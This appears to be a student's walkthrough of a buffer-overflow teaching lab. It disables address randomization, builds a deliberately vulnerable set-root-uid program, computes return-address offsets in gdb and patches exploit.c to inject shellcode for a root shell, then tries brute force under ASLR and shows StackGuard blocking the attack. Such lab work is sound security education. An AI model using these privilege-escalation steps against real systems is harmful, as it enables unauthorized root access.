 # Task 1: Exploiting the Vulnerability
## preparation

Disable address apace randomization:

    sudo sysctl -w kernel.randomize_va_space=0

Create an empty badfile for debugger:

    touch badfile

**NOTE**: If you are using Ubuntu 16.04 or later, the default `dash` shell will not work properly (you won't get a root shell). Use following commands to replace `dash` by `zsh` before starting:

    sudo apt-get install zsh
    sudo rm /bin/sh
    sudo ln -s /bin/zsh /bin/sh
    exit

## test `call_shellcode.c`

    gcc -z execstack -o call_shellcode call_shellcode.c
    ./call_shellcode

A shell should be invoked here

## edit and compile `stack.c`

Insert codes after `char buffer[24];` :

```c
printf("%p\n", buffer);
```

Then compile `stack.c` in root account, and make it *set-root-uid*:

    su root
    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack
    exit

## check buffer address & offset

First run stack:

    ./stack

Take the output address as ***BUF***. You can also see an output `Returned Properly` here.

Then start gdb and disassemble function `bof`:

    gdb stack
    disas bof

Take the offset of the instruction `<strcpy>` as N. Set two breakpoints and start to run:

    b *(bof+0)
    b *(bof+N)
    r
    x/x $esp

You can get `addrA: xxxx` which shows the memory that contains return address. Then continue:

    c
    x/x $esp

Here you'll get `xxxx: addrB` which represents the start address of `buffer` in gdb. Now you can calculate offset:

    p addrA-addrB

Copy ***OFFSET*** *= addA - addrB* calculated above, then quit gdb:

    q
    y

## edit `exploit.c`

Insert codes after `memset(&buffer, 0x90, 517);` :

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + OFFSET + 4, shellcode);
```

## compile `exploit.c` and run!

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see a **#** here, which means you've got a root shell! You can check this by typing the following:

    id
    whoami

# Task 2: Address Randomization

First turn on address randomization and try to run `stack`:

    sudo sysctl -w kernel.randomize_va_space=2
    ./stack

You should see a different output address, and an error `Segmentation fault (core dumped)` occered.

## edit `exploit.c`

Replace `BUF` with the address shown above, and change the destiny of `srtcpy` to the end of `buffer` as long as it can hold shellcode:

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + 480, shellcode);
```

## complie `exploit.c` and run `stack` in a loop

    gcc -o exploit exploit.c
    ./exploit
    sh -c "while [ l ]; do ./stack; done;"

Wait for a while until you get a root shell again!

# Task 3: Stack Guard

Turn off the address randomization again, and recompile `stack.c` with stack guard:

    sudo sysctl -w kernel.randomize_va_space=0
    sudo gcc -o stack -z execstack stack.c
    sudo chmod 4755 stack

Edit `exploit.c` to older version done in Task 1 (just recover `BUF`):

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + 480, shellcode);
```

See what will happen:

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see an error message here:

    *** stack smashing detected ***: ./stack terminated
    Aborted (core dumped)
